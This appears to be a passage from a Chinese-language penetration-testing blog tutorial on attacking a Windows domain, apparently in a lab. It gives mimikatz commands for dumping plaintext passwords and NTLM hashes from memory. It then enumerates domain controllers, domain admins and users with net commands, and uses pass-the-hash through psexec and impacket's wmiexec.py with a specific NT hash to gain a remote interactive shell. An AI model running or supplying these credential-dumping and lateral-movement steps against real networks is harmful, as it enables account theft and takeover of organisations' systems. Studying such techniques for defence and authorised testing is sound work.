 我们上传mimikate,来看看有没域用户登录过.
```c
privilege::debug
sekurlsa::logonpasswords
```
管理员在线或者没有注销。我们可以抓取明文的，但如果没有明文，也可以把hash拿去破解
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190326224854121.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)登录抓取的域用户，然后来收集一手信息
查看域控的主机名
```c
net group "domain controllers" /domain
```


注意通过该指令得到的机器名后面会多一个$符号，如下图：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190326230645453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)来ping一手可以看域控对应的ip(与DNS服务器是一样的)
也可以可以通过nslookup
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190326230740706.png)![在这里插入图片描述](https://img-blog.csdnimg.cn/20190326230920905.png)
再看看域管理员的用户名
```c
net group "domain admins" /domain
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019032623104997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)
最后看看域用户
```c
net user /domain
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190326231237561.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)接下来就是找到一台域管理员登录的机器
首先退出域用户，用具有管理的账号密码登录,然后查看那些用户在本机器登录
```c
tasklist  /v 
```
域管理员刚好在本机器登录过，但真实环境不会这么顺利（所以我们只有横向渗透）
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019032700151437.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)

### hash传递
在内网渗透中有时候抓不到明文密码，也可以用hash传递注入攻击拿下另一个目标
首先利用mimikate抓取ntlm()
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190328150250368.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)

然后利用从而达到执行命令
某些工具的参数需要填写固定格式 ==LM hash:NT hash==，可以将LM hash填0(LM hash可以为任意值)，即00000000000000000000000000000000:NT hash
```c
psexec.exe whoami@192.168.100.138 net user  -hashes 0:B36309FCEAE34C5C6D63D5F0D4A4198A
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190328150419537.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk5OTM3Mg==,size_16,color_FFFFFF,t_70)也可以用wmiexec.py，这样可以获得一个交互式shell，比较方便
脚本地址：https://github.com/SecureAuthCorp/impacket
```c
python wmiexec.py whoami@192.168.100.138  -hashes 0000:B36309FCEAE34C5C6D63D5F0D4A4198A
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190328210230608.png)
psexec的使用
